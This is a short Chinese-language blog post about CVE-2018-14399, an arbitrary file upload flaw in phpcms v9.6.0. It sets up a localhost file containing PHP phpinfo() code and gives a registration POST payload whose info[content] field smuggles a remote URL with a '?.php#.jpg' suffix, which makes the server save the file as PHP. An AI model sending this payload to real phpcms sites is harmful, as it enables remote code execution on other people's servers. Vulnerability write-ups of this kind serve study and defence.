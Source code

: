 ```yaml
---
layout: post
title: "CVE-2018-14399 (phpcms v9.6.0任意文件上傳漏洞)"
description: ""
date: 2023-07-11
categories:
  - CVE
  - PHPCMS
author: ""
tags: ['CVE', 'PHPCMS', 'File_Upload']
---
```




# CVE-2018-14399 (phpcms v9.6.0任意文件上傳漏洞)

###### tags: `CVE` `phpcms`




我這邊給出了一篇好文:(由於我太懶了)
https://cloud.tencent.com/developer/article/1802267

如果閱讀完後，在看我下面的分析出的其他重點會更清楚


創建一個
http://localhost/hack.txt
```
<?php phpinfo();?>
```




payload正常格式:
```
siteid=1&modelid=11&username=Tao123&password=7123456&email=Ta11o@qq.com&info[content]=<img src=http://localhost/hack.txt?.php#.jpg>&dosubmit=1&protocol=

```
注意因為 這次的payload 是在註冊階段，所以payload 每次都需要不同的個人資料





正常post包
```
siteid=1&
modelid=10&
username=333333&
password=333333&
pwdconfirm=333333&
email=333333%40gmail.com&
nickname=3333&
info[birthday]=2023-02-02&
dosubmit=同意注册协议，提交注册&
protocol=
```
